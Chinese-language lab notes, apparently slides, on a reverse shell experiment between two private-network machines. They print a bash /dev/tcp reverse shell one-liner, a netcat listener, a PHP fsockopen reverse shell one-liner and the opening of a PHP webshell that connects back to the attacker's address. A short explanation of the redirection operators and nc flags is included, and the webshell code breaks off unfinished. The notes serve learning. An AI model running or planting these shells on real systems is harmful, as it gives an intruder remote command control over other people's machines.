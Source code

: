 ## 反弹shell实验
- 实验用的机器

客户机：
ip:`192.168.56.102`
`bash -i >& /dev/tcp/192.168.56.101/8888 0>&1`
攻击机：
ip:`192.168.56.101`
`nc -lvp 8888`

---
## 反弹shell实验
`bash -i >& /dev/tcp/192.168.56.101/8888 0>&1`
`>&`  `&>`作用时混合输出（错误正确都回输出到一个地方）
`bash -i > /dev/tcp/192.168.56.101/8888  0>&1 2>&1`
/dev/tcp/是Linux种的一个特殊的设备，打开这个文件就是相当于发出了一个socket调用，建立一个socket链接。
>&:当>&后面接文件时，表示标准输出和标准错误输出重定向至文件
0>&1：下面再该指令后面加上0>&1,代表将标准输入重定向到标准输出，这里的标准输出已经重定向到了/dev/tcp/192.168.56.101/8888这个文件，也就是远程，那么标准输入就重定向了远程


---
## 反弹shell实验  
`nc -lvp 8888`  
nc全称为netcat，所做的就是在两台电脑之间建立链接，并返回两个数据流。
-l 绑定和监听接入连接(server)
-v 显示指令执行过程
-p 设置本地的通信端口

---
## 应用以及遇到的问题
将webshell文件上传，监听端口，访问这个文件，
`php -r '$sock=fsockopen("192.168.56.101",1234);exec("/bin/sh -i <&3 >&3 2>&3");`

---

# python编写数据填充脚本相关问题

---


``` php
<?php

set_time_limit(0);

$ip=$_POST['192.168.56.101'];

$port=$_POST['1234'];

$fp=@fsockopen($ip,$port,$errno,$errstr);

if(!$fp){ echo "error";}

else{

fputs($fp,"\n++++++++++connect success++++++++\n");

while (!feof($fp)) {

fputs($fp,"shell:");//输出
```